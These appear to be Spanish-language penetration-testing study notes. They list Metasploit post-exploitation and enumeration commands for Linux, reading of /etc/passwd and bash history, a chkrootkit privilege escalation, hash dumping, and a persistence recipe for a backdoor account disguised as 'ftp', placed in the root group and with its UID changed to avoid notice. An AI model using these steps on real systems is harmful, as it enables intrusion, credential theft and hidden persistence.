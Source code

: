 Se puede hacer una explotaacion al puerto de la victima 2
set RHOST IPVictima2
set RPORT PuertoRealVictima -Ejemplo si se hizo el portforwarding del 80 (victima2) a 1234 (local), el esacaneo se haria sobre el 80 hacia la IP victima 2
sessions -Deben estar las sesiones de las 2 victimas



POST EXPLOTACION EN LINUX
Explotar y acceder a host Linux
cntrl z
session -u 1 -Darle una interfaz de meterpreter
sessions 2 -Session 1 pero con meterpreter
shell --> /bin/bash -i
cat /etc/passwd
groups root -Usuarios del grupo root
cat /etc/*issue -Version de Linux
uname -r -Version del kernel Linux
uname -a 
ifconfig - ip a s
netstat -antp -Puertos abiertos
ps aux -Procesos corriendo
/tmp# env -Enumerar variables de entorno

Modulos Postexplotacion
search enum_configs -Enumera todos los posibles archivos vulnerables
loot -Ver toda la informacion guardad en el Workspace de Postgresql - El cual guarda los archivos enumerados - cat /etc/..../data.config
use multi/gather/env
use linux/gather/enum_networks
searc enum_protections -Enumerar los mecansmos de seguridad, y protocolos seguros --> notes
search enum_system -Enumera todo lo posiblemente vulnerable en Linux
loot -Ver todo lo enumerado

search checkcontainer -Verificar si el Linux esta en un contenedor (ej: Docker)
search checkvm
search enum_users_history -Obtener el historial de comandos bash del usuario


ESCALADA DE PRIVILEGIOS EN LINUX

ps aux -Ver procesos en ejecucion en busca de aplicaciones vulnerables (ej: chkrootkit)
chkrootkit -V -Revisar version si es vulnerable
msf> search chkrootlit

PERSISTENCIA E LINUX

Dumpeo de Hashes
search hashdump
/tmp# passwd root --> NuevaContraseña
useradd -m newuser -s /bin/bash	
/tmp# passwd newuser --> NuevaContraseña

Crear cuenta para Backdooor
useradd -m ftp -s /bin/bash -Un usuario que para la victima paresca algo normal
passwd ftp
usermod -aG root ftp -Se agrega el usuario ftp al grupo root para que tengan los mismos privilegios
grops ftp -Verificar grupo
usermod -u 15 ftp -Ocultar ID que revela que la cuenta se creo recientemente
